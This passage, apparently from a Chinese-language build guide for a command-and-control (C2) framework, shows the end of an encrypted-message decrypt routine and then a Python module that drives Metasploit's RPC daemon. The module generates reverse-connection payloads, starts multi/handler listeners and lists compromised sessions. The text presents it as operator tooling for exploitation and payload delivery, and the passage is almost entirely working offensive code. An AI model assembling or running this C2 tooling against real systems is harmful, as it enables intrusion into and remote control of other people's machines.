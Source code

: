 ```python
        try:
            encrypted_data = base64.b64decode(encrypted_b64)
            if len(encrypted_data) < 28:  # 12 byte nonce + 16 byte tag
                return None
            nonce = encrypted_data[:12]
            ciphertext = encrypted_data[12:]
            return self.aesgcm.decrypt(nonce, ciphertext, None)
        except Exception:
            return None
```

---

### 模块 2: MSF RPC 桥接 (`msf_bridge.py`)

此模块在 C2 服务器端运行，连接到 Metasploit 的 `msfrpcd` 服务，为操作员提供程序化的漏洞利用和载荷生成能力。

```python
# msf_bridge.py
from msfrpc.msfrpc import MsfRpcClient
import time

class MSFBridge:
    """A bridge to interact with the Metasploit RPC daemon (msfrpcd)."""
    def __init__(self, password: str, host: str = '127.0.0.1', port: int = 55553, ssl: bool = True):
        self.client = MsfRpcClient(password, host=host, port=port, ssl=ssl)
        if not self.client.authenticated:
            raise ConnectionError("MSF RPC authentication failed. Check credentials and if msfrpcd is running.")
        print("[+] MSF Bridge: Connected and authenticated.")

    def generate_payload(self, payload_type: str, lhost: str, lport: int, format: str = 'raw'):
        """Generates a payload using msfvenom."""
        print(f"[*] MSF Bridge: Generating '{payload_type}' payload for {lhost}:{lport}...")
        try:
            payload = self.client.modules.execute('payload', payload_type, {
                'LHOST': lhost,
                'LPORT': lport,
                'Format': format
            })
            return payload.get('payload')
        except Exception as e:
            print(f"[-] MSF Bridge: Payload generation failed: {e}")
            return None

    def create_listener(self, payload_type: str, lhost: str, lport: int):
        """Creates a multi/handler listener in Metasploit."""
        print(f"[*] MSF Bridge: Creating listener for '{payload_type}' on {lhost}:{lport}...")
        try:
            exploit = self.client.modules.use('exploit', 'multi/handler')
            exploit['LHOST'] = lhost
            exploit['LPORT'] = lport
            exploit.payload = payload_type
            job_id = exploit.execute()
            print(f"[+] MSF Bridge: Listener started as job {job_id['job_id']}.")
            return job_id['job_id']
        except Exception as e:
            print(f"[-] MSF Bridge: Listener creation failed: {e}")
            return None

    def list_sessions(self):
        """Lists active MSF sessions."""
        return self.client.sessions.list
```